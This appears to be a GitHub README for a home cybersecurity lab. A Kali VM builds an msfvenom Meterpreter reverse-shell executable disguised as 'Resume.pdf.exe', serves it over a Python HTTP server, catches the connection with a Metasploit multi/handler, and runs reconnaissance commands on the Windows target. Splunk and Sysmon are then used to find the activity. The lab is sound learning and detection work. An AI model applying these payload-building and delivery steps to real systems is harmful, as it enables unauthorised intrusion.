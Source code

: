 # ActiveDirectory (Kali/ART/Splunk) Project

Objective
In the field of cybersecurity, we need an environment to test new tools and learn new techniques. The intention for this project is to build a cybersecurity homelab in order to execute malware and other exploits so that we can gain insights, observe telemtry/alerts, and learn about malicious indicators of compromise (IOCs). We opt to experiment in a virtual environment (preferably a sandbox) so that we dont cause unnecessary harm to a production or valuable environment. In this instance we will use virtual box. The tools we will be using will be a target Windows 10 host machine that has Sysmon and the Splunk SIEM downloaded and deployed. The other tool will be an attacker machine using Kali Linux. We will craft our own exploit and malware in Kali to send it to our target host. We will then switch to our target machine and execute the malware on there. This homelab fullfils two obejectives; a blue team and a red team objective. The defense tools on our target host help us observe telemetry and logs to see what charactersistics an exploit or attack might consist of in real time. On the other hand, the ethical hacking done on our attacker kali machine helps us understand how attackers craft malware, identify vulnerabillities, and compromise their targets.

Skills Learned
Red Team: How to run and configure Kali Linux and tools within the system
Blue Team: Configure and deploy Splunk Enterprise with Sysmon feeding it data
Setup an internal network and statically assign IPs so that two hosts can establish connections
Use commands like ipconfif, ifconfig, ping, and netstat. This helped with checking host IPs, checking whether a host can be pinged, and checking what connections are established on my machine
Nmap to scan ports to see what their statuses are
Metasploit to listen in with a multi handler
Crafting malware with a payload using msfvenom tool
Create a http server to host the malware on
Identify telemtry via Splunk and apply curated searches and investigations to look deep into data
Tools Used
Vitualbox
Windows 10
Kali Linux
Splunk Enterprise
Sysmon
Python3 -m
Msfvenom
Msfconsole
Meterpreter Reverse Shell TCP
Nmap
Windows task manager
Windows Command Prompt
Steps
Step 1: We first must start by making sure that the Splunk on our target host is configured to properly ingest data transferred from Windows Sysymon into an index created inside Splunk. This is done by editing the inputs.conf file to make sure sysmon is configured in the Splunk's inputs.conf file to be ingested. Then we paste this edited inputs.conf file into the local folder in Splunk and restart the service so that it is saved. This should be done first since we want to observe how the host reacts and what it alerts after the malware has been executed.

Cyber SOC Homelab Steps
Step 2: After placing the inputs.conf file in the local folder of Splunk and restarting the process, we now have to create an index in Splunk Enterprise called " endpoint". This is because that is what is written in the inputs.conf file and it will know exactly where to dump the data within the Splunk application. We also need to download an add-on app in Splunk that helps us parse incoming Sysmon data.

Cyber SOC Homelab Steps Cyber SOC Homelab Steps

Step 3: On target Windows machine, we use the "ping" command on the command prompt followed by the IP address of the Kali machine to establish connectivity in the internal network we set up between the two machines. We can't do it the other way around because the Windows firewall rule blocks any incoming connections.

Cyber SOC Homelab Steps
Step 4: On the Kali attacker machine, we run "nmap" against the Windows target machines with the "-A" flag meaning scan all ports and the "Pn" flag meaning to skip pings. After nmap finished its scan on all ports, we see that port 3389 is open which is the port for Remote Desktop Protocol (RDP). This allows for remote connections to your host which is dangerous to have open in any production or enteprise environment.

Cyber SOC Homelab Steps

Step 5: Now its time to create our malware on our attacker Kali Linux machine. We use the "msfvenom" tool to build it. We start of by using a meterpreter reverse shell as our payload. To get a list of payloads; we use the "msfvenom -l payloads" command. We search through the list to find our meterpreter reverse shell payload and copy it to use fo later. Now we can compile the malware. The commad we use is as follows: msfvenom -p (add the copied payload here) lhost= (add the IP address of the attacker machine here) lport= (add the port for the meterpreter here which is 4444) -f (this flag is for the format the file we are creating is in which is exe) -o (this flag is for what you want to name your malware that the target will see; we will name it Resume.pdf.exe).

Cyber SOC Homelab Steps Cyber SOC Homelab Steps

Step 6: Next, we need open up a handler that will listen to the 4444 port that we configured in our malware. We do this by open up metasploit by typing "msfconsole". We will us the multi handler by typing in "use exploit/multi/handler" and clicking enter. We will be in teh exploit itself. From here we check the options to see what we can configure. We change the what is in the "payload options" from the default payload to the payload that we used for our malware. We also change the "lhost" section to our attacker machine's IP address and make sure all of these changes are saved. After this, we start the handler with the "exploit" command. Now we are listening in and waiting until our target machine executes our malware.

Cyber SOC Homelab Steps Cyber SOC Homelab Steps

-Step 7: We need to set up an HTTP server on our attacker Kali machine so that our target machine can download our malware. In this case we will use python to this in the same directory as our malware. We type "python3 -m http.server 9999" to create it and now our test machine should be able to access it and download our malware. Now we are done on Kali and must wait for our malware to be executed

Cyber SOC Homelab Steps

-Step 8: We hop back on our target Windows 10 machine and disable Windows Defender and anti virus. We head to our kali serviced web page that has the malware on it. We download the malware and run it. Now that the malware has been executed, we open up the command prompt with administrator privilages. We type in "netstat -anob" and we see an established connection to our Kali attacker machine. We also use the PID from that connection output and open it up on windows task manager to see that it is indeed the malware that was executed

Cyber SOC Homelab Steps Cyber SOC Homelab Steps Cyber SOC Homelab Steps

-Step 9: Jumping back to our Kali machine, it looks like we have a connection where we were listening in with our handler. Now we have control over the target machine. We now run a few commmands. We type in the "shell" command to establish a shell on our target machine. We also run the "net user", "net localgroup", and "ipconfig" commands to exfiltrate more information from the target machine. After this, we will check back on our Splunk SIEM to see what kind of telemetry has been generated.

Cyber SOC Homelab Steps Cyber SOC Homelab Steps Cyber SOC Homelab Steps

-Step 10: Back on our Splunk SIEM, we search for our "index=endpoint" but at the end of it we query the Kali attacker machine's IP address. It would like this "index=endpoint 192.168.20.11". We scroll down to discover that one destination port was targeted and it was the 3389 port for RDP. Some questions an analyst would ask are; "Should this machine be attempting to connect to RDP?, "What machine is this?", "Who does is belong to?", or "How is it able to listen into and scan my ports?".

Cyber SOC Homelab Steps

Step 11: We can further dig deeper into other events that were logged by Splunk. This time we can search with the name of the malware at the end so; "index=endpoint Resume.pdf.exe. We have 13 events and 7 event codes generated. We delve deeper by investigating the first event code out of 7. By expanding this event, we can see that a parent process had spawned another process which ran a cmd.exe. We also see the process id 5428 which we could use to query our data to see what that command had done. Instead we opt with the process guid. We copy the process guid characters and paste it at the end of our "index=enpoint" instead using the malware name or another process id. This would looklike: "index=endpoint d542c381... ". This shows use exactly which commands the attacker used to exfiltrate data displayed in our Splunk.

Cyber SOC Homelab Steps Cyber SOC Homelab Steps
